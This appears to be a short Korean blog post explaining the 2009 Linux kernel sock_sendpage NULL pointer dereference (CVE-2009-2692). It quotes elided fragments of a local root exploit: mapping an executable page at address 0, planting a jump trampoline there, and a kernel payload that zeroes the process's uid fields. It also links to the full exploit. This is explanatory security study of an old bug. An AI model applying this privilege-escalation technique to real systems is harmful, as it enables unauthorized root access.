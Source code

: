 ```yaml
---
layout: post
title: "sock_sendpage"
date: 2016-01-11 14:42:27 +0900
comments: true
categories: 
---
```


CVE-2009-2692, sock_sendpage 에서 벌어지는 NULL pointer deref 버그를 정리한다. 발견자가 Tarvis Ormandy 인지 Brad Spengler 인지는 이런저런 문서를 읽어봐도 잘 모르겠다.

Exploit 자체는 꽤 클래식해서 정리해놓을 가치가 있다고 생각한다.

[exploit.c](http://http://downloads.securityfocus.com/vulnerabilities/exploits/36038-5.c)

#### Exploit

```
	...
	if ((zero_page = mmap(0x00000000,0x1000,PROT_READ|PROT_WRITE|PROT_EXEC,MAP_FIXED|MAP_ANONYMOUS|MAP_PRIVATE,0,0)) == MAP_FAILED) {
		...
	}
```

0x0 에 4096 bytes 짜리 메모리 페이지를 할당한다.

그리고, payload 를 담고있는 변수의 주소를 0x00000002,0x3,0x4,0x5 에 깐다.

```
	*(char *)0x00000000 = 0xff;
	*(char *)0x00000001 = 0x25;
	*(unsigned long *)0x00000002 = (unsigned long)&kernel;
	*(char *)0x00000006 = 0xc3;
```

버그가 trigger 되면 `fp = *(unsigned long)(*(unsigned long)((0x00000000)->0x2)); (*fp)();` 하는 모양.

Kernel priv. 로 돌아가는 페이로드는 다음과 같다. cred structure 에서 uid 들을 고치는 페이로드.

```
	while (pcb_task_struct) {
		if (pcb_task_struct[0] == uid && pcb_task_struct[1] == uid &&
			pcb_task_struct[2] == uid & pcb_task_struct[3] == uid &&
			...) {
			pcb_task_struct[0] = [1] = ... = [7] = 0;
			break;
		}	
		pcb_task_struct++;
	}
```

그렇다면 왜 NULL porinter 를 deref 하게 되는지는 너무 오래된 버그라서 큰 의미는 없을 것 같다.
